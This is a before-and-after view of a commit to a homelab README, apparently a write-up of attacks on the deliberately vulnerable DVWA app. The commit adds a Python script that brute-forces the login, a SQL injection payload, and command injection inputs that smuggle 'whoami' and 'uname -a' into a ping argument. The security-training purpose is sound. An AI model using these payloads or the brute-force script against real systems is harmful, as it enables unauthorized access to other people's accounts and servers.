

Before and after one commit to minjintiger/HomeLab, a Markdown page: lab3/README.md, the part around the change. Shown at 90% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Enhance README with code examples for vulnerabilities
Added example code snippets for brute-force login, SQL injection, and command injection.

````diff
--- a/lab3/README.md
+++ b/lab3/README.md
@@ -41,14 +41,33 @@ The successful payload had a different response length, indicating the applicati
 Explanation:
 DVWA does not implement account lockout, IP throttling, or delays between attempts. Any attacker can brute-force the login by monitoring response length, response time, or redirect behavior.
 
+Example code:
+```
+import requests
+
+url = "http://192.168.56.103/dvwa/login.php"
+passwords = ["admin", "password", "123456"]
+
+for pw in passwords:
+    data = {
+        "username": "admin",
+        "password": pw,
+        "Login": "Login"
+    }
+    r = requests.post(url, data=data)
+    if "Login failed" not in r.text:
+        print(f"[+] Valid password found: {pw}")
+        break
+```
+
 ---
 
 ## Step 2 — SQL Injection
 
 Input tested:
-
+```
 1' OR '1'='1
-
+```
 Explanation:
 DVWA concatenates the user input directly into the SQL statement:
 
@@ -59,22 +78,34 @@ Because the input contains additional SQL logic, the WHERE clause becomes perman
 Risk impact:
 SQL injection enables attackers to retrieve, modify, or delete data, escalate privileges, or chain into RCE in certain database environments.
 
+Example code:
+```
+SELECT first_name, last_name
+FROM users
+WHERE user_id = '1' OR '1'='1';
+```
+
 ---
 
 ## Step 3 — Command Injection
 
 Payloads tested:
-
+```
 8.8.8.8; whoami
 8.8.8.8 | uname -a
 8.8.8.8 | pwd
-
+```
 Explanation:
 The app runs:
 
 ping -c 4 <user_input>
 
 Because characters like “;” and “|” terminate the ping command, anything after them runs as a separate shell command.
+
+```
+ping -c 4 8.8.8.8; whoami
+ping -c 4 8.8.8.8 | uname -a
+```
 
 Risk impact:
 Command injection gives full OS-level access under the web server user account (www-data). Attackers can read files, download malware, pivot further, or escalate privileges.
````
